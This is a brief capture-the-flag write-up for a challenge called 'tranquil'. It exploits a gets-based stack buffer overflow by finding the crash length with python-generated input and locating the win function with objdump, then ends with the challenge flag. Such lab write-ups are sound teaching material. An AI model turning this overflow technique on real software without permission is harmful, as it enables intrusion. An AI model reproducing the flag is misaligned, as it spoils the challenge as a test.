

# tranquil

### Description



## Solution

In short this is a very basic Buffer Overflow exercise to overwrite the stack pointer. I can tell because when I opened the binary in Cutter (Reverse Engineering Program), it has `gets`, which allows for input data to overwrite onto the stack.

A similar exercise would be https://medium.com/@coturnix97/exploit-exercises-protostar-stack-4-163bf54d1e77.
If you lack knowledge on how any of this works, I advice you to check LiveOverflow's binary exploitation video series.

Through manual labour, I tried to find the length of input to crash the code
```
(base) [hacker@hackerbook tranquil]$ python -c 'print("A"*72)'| ./tranquil
Enter the secret word:
Login failed!
Segmentation fault (core dumped)
(base) [hacker@hackerbook tranquil]$ python -c 'print("A"*71)'| ./tranquil
Enter the secret word:
Login failed!
```

I found the address of the `win` function using `objdump`.
```
(base) [hacker@hackerbook tranquil]$ objdump -d tranquil | grep win
0000000000401196 <win>:
  4011bd:	75 1b                	jne    4011da <win+0x44>
```

After that, I just send the payload using python in `solve.py`

Fun fact: This took me 12:07 min, about 4min wasted trying to automate the fuzzing of the overflow length.


## Flag
`actf{time_has_gone_so_fast_watching_the_leaves_fall_from_our_instruction_pointer_864f647975d259d7a5bee6e1}`
